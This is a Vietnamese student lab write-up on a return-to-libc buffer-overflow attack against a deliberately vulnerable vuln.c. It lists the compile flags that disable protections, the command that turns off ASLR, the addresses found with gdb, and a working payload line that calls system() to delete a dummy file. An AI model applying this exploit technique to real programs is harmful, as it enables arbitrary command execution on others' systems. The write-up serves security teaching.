







# LAB 3
## Khai thác lỗ hổng return-to-lib-c, xóa file "dummy" trong thư mục sử dụng biến môi trường.

Ở lab 3 này, ta sẽ dùng code của `vuln.c` để thực hiện tấn công.

Dưới đây là code của `vuln.c`

Theo yêu cầu của lab là sẽ yêu cầu ta xóa file `dummyfile`, nhưng ban đầu ta chưa có file `dummyfile` nào cả nên chúng ta sẽ đi tạo 1 file có tên là `dummyfile`. Và sau khi tạo, ta kiểm tra thử xem `dummyfile` đã tồn tại chưa bằng lệnh `ls`:

Ta sử dụng lệnh này để biên dịch chương trình vuln.c: `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Với `-z execstack`: cho phép thực thi code trên stack

Tiếp theo đó ta cần phải tắt randomize trên stack: `sudo sysctl -w kernel.randomize_va_space=0`

Và để xóa `dummyfile` này theo kiểu tấn công return-to-lib-c thì ta sẽ sử dụng `file_del` được biên dịch và liên kết từ `file_del.asm`. Và `file_del` sẽ làm đối số của hàm `system()` được lấy từ thư viện `libc`.

Ta sẽ đi biên dịch và liên kết `file_del.asm` bằng cách sử dụng 2 câu lệnh: `nasm -g -f elf file_del.asm` và `ld -m elf_i386 -o file_del file_del.o`.

Sau đó ta tạo biến toàn cục: `export dummy_delete="/home/seed/seclabs/security-labs/software/buffer-overflow/file_del"`

Với `/home/seed/seclabs/security-labs/software/buffer-overflow/file_del` ta có thể sử dụng `pwd` để tìm.

Dựa vào code, ta cũng có được stackframe của `vuln.c`:
|Stackframe|
|----------|
|buf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|Argc (4 bytes)|
|Argv (4 bytes)|

Và từ những điều trên, để có thể thực hiện `return-to-libc` thì ta cần làm cho `buf` bị overflow theo các địa chỉ như sau: 

* Địa chỉ `system` sẽ đè lên `return address` để thực hiện hàm `system`
* Địa chỉ `exit` sẽ đè lên `argc` để return về chương trình chính( tránh lỗi segmentation fault)
* Địa chỉ đối số `/home/seed/seclabs/security-labs/software/buffer-overflow/file_del` sẽ đè lên `argv` (đối số của hàm system)
 
 Ta chạy `gdb` để tìm các địa chỉ trên:

* Địa chỉ của hàm `system`:`0xf7e50db0` sẽ là `\xb0\x0d\xe5\xf7`
* Địa chỉ của hàm `exit`: `0xf7e449e0` sẽ là `\xe0\x49\xe4\xf7`
* Địa chỉ đối số `/home/seed/seclabs/security-labs/software/buffer-overflow/file_del`: `0xffffdf19` sẽ là `\x19\xdf\xff\xff`

Từ đó ta có câu lệnh để hoàn thành tấn công: `r $(python -c "print('a'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x19\xdf\xff\xff')")`.

Sau đó kiểm tra lại bằng lệnh `ls` thì ta đã không còn thấy `dummyfile` mà ban đầu ta đã tạo nữa.